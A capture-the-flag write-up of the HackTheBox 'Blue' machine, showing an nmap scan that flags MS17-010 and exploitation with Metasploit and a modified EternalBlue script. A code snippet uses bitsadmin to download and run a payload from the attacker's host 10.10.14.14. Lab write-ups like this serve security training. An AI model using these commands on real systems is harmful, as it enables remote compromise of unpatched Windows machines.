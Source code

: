 ```yaml
---
layout: post
title:  "HTB Blue Windows"
description : Easy machine, Ethernalblue exploit and metasploit is all what is needed
tags: HTB, msfvenom, python
---
```


# HTB BLue

# Recon
Nmap scan
```ruby
nmap/Vulns_10.10.10.40.nmap 10.10.10.40
Nmap scan report for 10.10.10.40
Host is up (0.044s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```
# Exploitation
The target machine is vulnerable to the infamous Ethernalblue exploit. 
First we gonna use the metasploit module `auxiliary/scanner/smb/pipe_auditor` so we can use a valid PIPE name from the SMB.
![](https://lh3.googleusercontent.com/0PKB1HI1YseEYeGKuxY6eiv8QtP0FJkw3utrndTzyql8LBnn_txCz-QWh-6bCkreyYR8HmNsbN2b7LlRFSzjyTH5Mmvbs9O6pjobhrJWktjDGryAYQK9Q-DBl9zwSMp6E1L796xTub9Ioh7bx3mRsW-YK6IEM0yR9wcun-rD3PSnucV7o9NPo0x0HRJgIKxWOFOx8T32mZ2GwVBK208TULyCONRmi485TjsAnawOL2B3gMvsyXSgGkuIGgoZzUq9rn1QjmLojcUQo7Djcm15_nCaLBtbz_6NlooIVBS9evdqXDVOMFHYOhC9dmMJPS8xYRWglqC6e4FYNulHCPQoJGtGPC-x10FUBFE-qE9tRqyM439K6NNfdxdmoVhK4YnSnEWsBrhU_zWohR7z03TKqT8QdhqrN91cvtrlZt1QQo6QMOmvXnXDc7nfUfgJiga7fLxp18FH7FeGYVixSoVC6IYOhog1ZTpGk6ITgX4SG7qNMgg7PxriGsoJoiZafpX1cT_d3B2zuA9VhSf1APwHLg_Z7luR0njhru2cZeYg023_cXRu_rqTmvJKxkRbcP0PkfxnS2tZqskY3BssuWsyyx0lgImf-PCFwsQigU90g_ANQ1atpDJUOUPuQOckKsBRSODnev6cTsd9rOH4cHT0Ro5IysdH6z-FqpYGREt4SfBXn-Z_09UFUqM=w1332-h176-no)

We download the EthernalBlue python exploit from **worawit**
```
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py 
```
We create our shell using msfvenom
```ruby
https://lh3.googleusercontent.com/e0kfHstDjnfrIWY5JcTvFAwefzj-Yg146bBHiq6jkOWc7GcJEYMFSAkUmUFQb9LEWNvDzyOsfByt-HFjsnAv_IYEbHI4Yba-4Gpqz2kUd_IJEvhJbs-iTxgY-aZk6EnRW29WALCRWD1I-at-MhVzvehpTNUuSwACpLK-Bo9q8RFUPpt04iXqVV1H1ajoemMRgsg_Aj0jJXr8olg6MeX_aqk2og9aLHmj5pAeC41bzja1Y47aaD_S7xKmJj66_vduTjPL-f8-zhOUFvH44snmXlkAzbria3o-9jLMFCGrxhK0LXMH8YMKgoN8TtTtAGho-8gEiSEjVvs0MrO5hmHEwD9RRuV2SI9MGNHfG0yH4kF8lHD8z9dP35WC5B7HTYgTKBXiAgiEItbriaDd4L36aTleCpclM7ik9aOwoizTIy8-XQUGhk0JgtAXlCfboQoclZjsfO4x60smJDmqttClXWRfXgd8btaAW7QCLHJ5zmdiimsSDazRXO0BMhwsMociCl6Yxs5RVf5oWJPxvXtb4hdb89wlCMHJg2m9hHOqrCFeMF_4iaM-cyNY6OfkyW2rfO0IcuxBxUBNKJEGBdxqBhEaYgKZ-GLucyfLxzL7d-jcV5f5e3x5JBr4fucV9wCr8gp8TB8q_9ZBLqrz9veNYPN02BCK1JRCrnkM_FU326PusQ2qgnExr8s=w1341-h248-no)
```
We modified the exploit to call for our payload to be donwloaded on our target machine

```ruby
#smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
	service_exec(conn, r'cmd /c bitsadmin /transfer pwn /download http://10.10.14.14/sc.exe C:\sc.exe')
        service_exec(conn, r'cmd /c /sc.exe')
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."
  ```
  
We run the exploit along with a valid PIPE to use and our payload is executed
![](https://lh3.googleusercontent.com/BMpjy9RPHcyQV9UQEpeJGAzKjRn3oTPhLyF3jZbp_MaC3ZYpfZjHEAlFzb9kzoRg7JDLxTYysPW17FubtYTxyngbO-ZvUyWxWKK2vlT7eVO2T0kPywpkCAhsH1kLXK1Xuum2hXsKtAFofZTzBJIgBwKLGU9QArHcaN9BhOVkdVHADy9rqqBNMdWWws2TjRCwuP1IZGSXqYnWHH5a3rzKyboFL03rJL6LqAEE5qKRiK0v812BxRcK6LfCS7J-XJMgG4s0snBTGsoPgss9KcEWxbKNa7plQtv18wTExP8SwkkJbO7V4c8CP7aiuHbMdR-Y-Gehy_4cihVKdZjzI0LjTzyOZM47NwAwpaNAJ5Zz1PNAX1UaUI1ubZ69_BpAB5U9eQ89FhZbx6Yf1DPURFQbQX1ZEltfX2Gd8ZwuIr02EmJLLpC4rqljqBqZ70gCFz669lZidurG2yKSJMeCaHfvd76guVJ-dyZLJSIK7TYYwZxO2C5zEFHeoQ6tEgavG5U70y-NeLdchHaUtzyuszlxV3b_hADqDmhnrRyWgVypT9mH6ZDLzlAsmYxG4L-B0KSXeBx0Bgr1VMLOvxgSCY8kE5O1qDotOVoWUn3NkAHq1CIlfdQaehk_yv-NZwQyKfnpE6J87xwCrer26Zvdc5Bhp6KIJ1ZAGzCb8pZ5-rSzuxgGe1QkFphM11s=w537-h464-no)

![](https://lh3.googleusercontent.com/qWP4JICNTD1mwhXK_J56RU6BpPxTHbP_QIEO3X2kzyF5vaCk6Qo_VxSi-Y6HUOImkgeRY_VyRcmycfuUXF10Vbz3kVeGohsBWdI6B72Ara0nuK6Bc9B9vXlew4wwKKqjEYpphpQFpM3n9oMtwIgrgd0gToBF2gXVARYXXAMFJ9XSD8uEG45crUInDuBn6WGFmFFIi3UVhMAmqmOldH685UT-FyYN4JeJzTuYOay5PKmwiYQ2vo-qqWWpJvsA2MCoCMCR6fFttbjqgTGV-k37fx2cWtD3wWzEOefodCAG2GrZ8VtvZjAdsAfJqUijVqWF5WU_YxHiwnxFWMQqgnctXoqGnx0xfOs2LnVqTRTD5ysQ2bJ4Qc3cHj29W1gUdU5y5qrAR8LSxTg-FHdULZGRvlX1sJ68igPyffb4J8pJ_bmaI78JIAvAVY53-BvFarM_Wzm3ubg8dcgrwt32rtOfhDHMwk1HAd8AJ0AWBEmq4IBzVGudBwqILdR0_tr_QL0N08G6K_CTcfRdOQGTkYQQJkqlN0jXsA_SlgE41fbTP9D07KjJc61zZa8NeWCWjXZUImchmHK2pJ1iPiUml8DshqFXGWjI71auMBbd9zIFEppATj9i8BXWJy8z5_f_Ew8q4l897Nx_smtg7NSZhnD5LTzbI38flAVMnDDt6m9u-Kb0vVFW74oaX2s=w1101-h458-no)

Finally we got Root level access.
![](https://lh3.googleusercontent.com/ZuFWg4MRj-bxX7daE4pDG6LaC8yHBO6LkhK9lKTogq-3zIU4pmU5qeL7EtXLAorU4Hoj726K_LkKQUw8_qexnzkYq0ti_jaspduSSamfXC5hX1v80Tt-1NpCi4LGUxaE607VHatFo5bVlQNRQri5L-G5IoZerYUIDgrDYK550eYCWfDB6kPn6uUAq00nIMp-G5BCwLkNcw2j5S1xcKJ_dddk5Mo_sEu7Uc6gnOO7oaAG3-2lquvUgk5r4huXPQhKz5-zVPiUPoqc5q-2-w1F5PFBLKnDMkT-XkF0wQyIuZy-4xhqAZZkpaw_XPIf7nQ6Rh6BXEmfxr336sw2tKCP1KcDvt8wFdLUnM5Oqf0cgiv80FDW2_sEYHDGhsBaTsGD37D0ESe_7ZuthcDYyH5eynB7kZE4VwvUd2fSE9e2duWuQebOpmsUuRPGkxlc97IpWKIJvNyUeH5H5SRAgGK-RlfxMqbuvdpllLeOrNfRsjzx897BR-iIqBvwJz2y04cHdOWR7mjsfefUCY_GeExlPCxwQIGsvLqwwdP8uC-81cYdXANuxTAIz4Ty18wBAQXRkHvZQkL9TyIgfuphRHy_xI1b7pfXzZog8f3n3vJm9MiHFfHHTLiGgIXBFztHztXN2rVi5NJx--CJv576xPiTzkV1wRH_r1VX-7vpY52FgJ0WQhLolq7RhNA=w1032-h393-no)

